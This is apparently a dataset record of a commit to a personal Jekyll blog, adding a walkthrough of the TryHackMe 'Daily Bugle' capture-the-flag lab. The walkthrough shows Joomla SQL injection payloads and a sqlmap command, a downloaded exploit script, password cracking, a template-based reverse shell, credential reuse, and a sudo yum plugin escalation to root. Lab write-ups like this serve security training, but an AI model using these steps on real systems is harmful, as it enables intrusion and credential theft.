

Before and after one commit to zaneef/zaneef.github.io, a Jekyll site: the page built from tags.html, in a window 1280 px wide and 900 px high, scrolled down 3375 px. Shown: the whole window, without its empty margins (278-1001 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
THM - Daily Bugle

````diff
--- a/_posts/2022-09-22-thm-skynet.md
+++ b/_posts/2022-09-22-thm-skynet.md
@@ -1,6 +1,6 @@
 ---
 title: THM - Skynet
-tags: [thm, smb, cuppa cms, linux wildcard exploitation]
+tags: [thm, smb, cuppa cms, wildcard injection]
 ---
 
 <div style="text-align:center;">
--- /dev/null
+++ b/_posts/2022-09-23-thm-daily-bugle.md
@@ -0,0 +1,267 @@
+---
+title: THM - Daily Bugle
+tags: [thm, joomla cms, joomla revshell, sqli]
+---
+
+<div style="text-align:center;">
+<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/5a1494ff275a366be8418a9bf831847c.png" alt="Challenge logo" style="height:150px;">
+</div>
+
+Start the machine and access their VPN. As usual, we will start with a simple nmap scan
+
+```
+$ nmap -sC -sV 10.10.
+
+PORT     STATE SERVICE VERSION
+22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
+| ssh-hostkey:
+|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
+|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
+|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)
+80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
+|_http-generator: Joomla! - Open Source Content Management
+| http-robots.txt: 15 disallowed entries
+| /joomla/administrator/ /administrator/ /bin/ /cache/
+| /cli/ /components/ /includes/ /installation/ /language/
+|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
+|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
+|_http-title: Home
+3306/tcp open  mysql   MariaDB (unauthorized)
+MAC Address: 02:DB:D1:95:4A:0F (Unknown)
+```
+
+Only three open ports: 22, 80 and 3306. We will start from the web server since it could be the most likely point of access.
+
+![](/assets/img/daily-bugle-web-server.PNG)
+
+From the nmap scan we can see that we can read the content of `robots.txt`. The most interesting entry is obviously `/administrator`. Let's navigate to it.
+
+![](/assets/img/daily-bugle-joomla.PNG)
+
+Joomla default login page. Let's gather some useful information about the CMS.
+
+We can try to search for Joomla manifest at `/administrator/manifests/files/joomla.xml`
+
+![](/assets/img/daily-bugle-joomla-manifest.PNG)
+
+We find that Joomla's version is `3.7.0`. Let's search for some knwon vulnerabilities
+
+```
+$ searchsploit joomla 3.7.0
+
+--------------------------------------------------------------------------------------------------------------------
+ Exploit Title                                                                         |  Path
+--------------------------------------------------------------------------------------------------------------------
+Joomla! 3.7.0 - 'com_fields' SQL Injection                                             | php/webapps/42033.txt
+Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                          | php/webapps/43488.txt
+--------------------------------------------------------------------------------------------------------------------
+Shellcodes: No Results
+```
+
+The first one is classified as CVE-2017-8917 and is caused by a new component, `com_fields`, which was introduced in this version. Looking at the source code of the exploit, we can see that we can confirm this vulnerability with sqlmap.
+
+```
+$ sqlmap -u "http://10.10.24.96/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
+```
+
+After a little bit of testing, sqlmap reported that the parameter `list[fullordering]` is vulnerable to these types of SQL Injection
+
+```
+---
+Parameter: list[fullordering] (GET)
+    Type: boolean-based blind
+    Title: Boolean-based blind - Parameter replace (DUAL)
+    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (3278=3278) THEN 3278 ELSE 3278*(SELECT 3278 FROM DUAL UNION SELECT 2033 FROM DUAL) END)
+
+    Type: error-based
+    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
+    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5583 FROM(SELECT COUNT(*),CONCAT(0x7170707671,(SELECT (ELT(5583=5583,1))),0x7162786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
+
+    Type: AND/OR time-based blind
+    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
+    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))RzgG)
+---
+[10:35:40] [INFO] the back-end DBMS is MySQL
+web server operating system: Linux CentOS
+web application technology: Apache 2.4.6, PHP 5.6.40
+back-end DBMS: MySQL >= 5.0
+```
+
+With this scan we were able to find some other useful information like MySQL version, Apache version, PHP version and the OS running on the machine. After a little online search I was able to find [this](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) python exploit. Let's try it
+
+```
+$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
+$ python joomblah.py http://10.10.24.96
+
+ [-] Fetching CSRF token
+ [-] Testing SQLi
+  -  Found table: fb9j5_users
+  -  Extracting users from fb9j5_users
+ [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
+  -  Extracting sessions from fb9j5_session
+```
+
+We succesfully found the user `jonah` and his hashed password. Let's crack it with John The Ripper
+
+```
+$ echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash
+$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
+
+spiderman123     (?)
+```
+
+We can try to log into the Joomla administration tool with the credentials we just found.
+
+![](/assets/img/daily-bugle-admin-dashboard.PNG)
+
+One we are logged in the application, we can follow [this](https://www.hackingarticles.in/joomla-reverse-shell/) useful guide on how to spawn a revshell from the Joomla administrator page.
+
+Go to "Extension > Templates > Templates" and click on the currently active one. We can now view and modify all the source files of the application.
+
+![](/assets/img/daily-bugle-edit-template.PNG)
+
+I'll edit `index.php` but you can choose the page you like most. Overwrite its content with the revshell source code (remember to edit the IP address and the port) and click on "Save & Close". Now you have to setup a netcat listener and refresh the page you just modify.
+
+```
+nc -lnvp 4242
+Listening on [0.0.0.0] (family 0, port 4242)
+Connection from 10.10.24.96 49750 received!
+Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
+ 02:47:53 up 15 min,  0 users,  load average: 0.08, 0.03, 0.05
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=48(apache) gid=48(apache) groups=48(apache)
+sh: no job control in this shell
+sh-4.2$
+```
+
+Let's stabilize our shell
+
+```
+sh-4.2$ which python
+/usr/bin/python
+sh-4.2$ python -c 'import pty; pty.spawn("bin/bash");'
+bash-4.2$ ^Z
+$ stty raw -echo
+$ fg
+bash-4.2$ export TERM=xterm
+bash-4.2$ whoami
+
+apache
+```
+
+We are a low privileges user. Let's see if in the `/var/www/html` are any configuration files with plaintext credentials.
+
+```
+bash-4.2$ cd /var/www/html
+bash-4.2$ ls
+LICENSE.txt    cli		  includes   media	 tmp
+README.txt     components	  index.php  modules	 web.config.txt
+administrator  configuration.php  language   plugins
+bin	       htaccess.txt	  layouts    robots.txt
+cache	       images		  libraries  templates
+```
+
+`configuration.php` looks interesting. Let's see its content
+
+```
+<?php
+class JConfig {
+	public $offline = '0';
+	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
+	public $display_offline_message = '1';
+	public $offline_image = '';
+	public $sitename = 'The Daily Bugle';
+	public $editor = 'tinymce';
+	public $captcha = '0';
+	public $list_limit = '20';
+	public $access = '1';
+	public $debug = '0';
+	public $debug_lang = '0';
+	public $dbtype = 'mysqli';
+	public $host = 'localhost';
+	public $user = 'root';
+	public $password = 'nv5uz9r3ZEDzVjNu';
+	public $db = 'joomla';
+
+[...snip...]
+```
+
+With these credentials we can access `mysql` but there are no interesting information. We can see which other users are present inside this machine.
+
+```
+bash-4.2$ ls -l /home
+
+jjameson
+```
+
+`jjameson` is a user. Let's see if the credentials we just found are reused for him
+
+```
+bash-4.2$ su jjameson
+Password:
+[jjameson@dailybugle html]$
+```
+
+Password reuse the old-fashioned way. Let's get the user flag
+
+```
+[jjameson@dailybugle html]$ cat /home/jjameson/user.txt
+27a260fe3cba712cfdedb1c8[redacted]
+```
+
+We have to elevate our privileges one more time. Let's see which commands we can execute with sudo
+
+```
+[jjameson@dailybugle html]$ sudo -l
+
+Matching Defaults entries for jjameson on dailybugle:
+    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
+    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
+    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
+    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
+    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
+    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
+    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
+
+User jjameson may run the following commands on dailybugle:
+    (ALL) NOPASSWD: /usr/bin/yum
+```
+
+`yum` looks fishy. Search it into [GFTObins](https://gtfobins.github.io/gtfobins/yum/#sudo). We can spawn root shell by loading a custom plugin! Let's try it
+
+```
+[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
+> [main]
+> plugins=1
+> pluginpath=$TF
+> pluginconfpath=$TF
+> EOF
+
+[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
+> [main]
+> enabled=1
+> EOF
+
+[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
+> import os
+> import yum
+> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
+> requires_api_version='2.1'
+> def init_hook(conduit):
+>   os.execl('/bin/sh','/bin/sh')
+> EOF
+
+[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
+Loaded plugins: y
+No plugin match for: y
+sh-4.2#
+sh-4.2# whoami
+root
+```
+
+We are root! Let's get the flag.
+
+```
+sh-4.2# cat /root/root.txt
+eec3d53292b1821868266858[redacted]
+```
````
Also changed, not shown: assets/img/daily-bugle-admin-dashboard.PNG (added), assets/img/daily-bugle-edit-template.PNG (added), assets/img/daily-bugle-joomla-manifest.PNG (added), assets/img/daily-bugle-joomla.PNG (added), assets/img/daily-bugle-web-server.PNG (added).
